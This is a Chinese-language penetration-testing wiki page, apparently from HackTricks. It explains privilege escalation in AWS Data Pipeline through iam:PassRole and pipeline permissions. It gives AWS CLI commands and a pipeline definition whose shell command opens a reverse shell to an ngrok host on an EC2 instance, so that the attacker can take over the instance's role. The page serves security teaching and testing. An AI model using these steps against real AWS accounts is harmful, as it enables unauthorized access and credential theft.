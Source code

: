 # AWS - Datapipeline Privesc

{{#include ../../../banners/hacktricks-training.md}}

## datapipeline

有关 datapipeline 的更多信息，请查看：

{{#ref}}
../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

具有这些 **权限的用户可以通过创建数据管道来提升权限**，以使用 **分配角色的权限执行任意命令：**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
在管道创建后，攻击者更新其定义以指示特定的操作或资源创建：
```json
{
"objects": [
{
"id": "CreateDirectory",
"type": "ShellCommandActivity",
"command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn": { "ref": "instance" }
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id": "instance",
"name": "instance",
"type": "Ec2Resource",
"actionOnTaskFailure": "terminate",
"actionOnResourceFailure": "retryAll",
"maximumRetries": "1",
"instanceType": "t2.micro",
"securityGroups": ["default"],
"role": "assumable_datapipeline",
"resourceRole": "assumable_ec2_profile_instance"
}
]
}
```
> [!NOTE]
> 请注意，**第14、15和27行**中的**角色**需要是**可被datapipeline.amazonaws.com假设的角色**，而**第28行**中的角色需要是**可被ec2.amazonaws.com假设的角色，并且具有EC2配置文件实例**。
>
> 此外，EC2实例将仅能访问可被EC2实例假设的角色（因此您只能窃取那个角色）。
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
**攻击者制作的管道定义文件包含执行命令或通过 AWS API 创建资源的指令**，利用数据管道的角色权限来潜在地获得额外的特权。

**潜在影响：** 直接提升到指定的 ec2 服务角色。

## 参考

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
